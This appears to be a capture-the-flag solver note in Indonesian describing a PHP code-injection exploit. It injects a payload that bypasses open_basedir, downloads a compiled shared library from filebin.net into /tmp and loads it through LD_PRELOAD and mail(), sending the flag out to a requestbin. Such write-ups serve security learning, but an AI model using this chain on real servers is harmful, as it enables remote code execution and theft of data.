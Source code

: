 # Solver
- Buat requestbin
- Buat payload.c (sesuaikan dengan url requestbin)
- Compile payload.c dengan ini: `gcc -shared -fPIC payload.c -o payload.so`
- Masukkan payload berikut: `1); chdir("assets/");ini_set("open_basedir", "/var/www/html:../");chdir("../");chdir("../");chdir("../");chdir("../");file_put_contents('tmp/bjir.so', file_get_contents('https://filebin.net/s9q2nn4jh03kby4p/payload.so?t=wj6zly9n'));putenv("LD_PRELOAD=/tmp/bjir.so");mail("a@localhost","","","",""); #`
- Cek hasilnya di requestbin untuk mendapat flag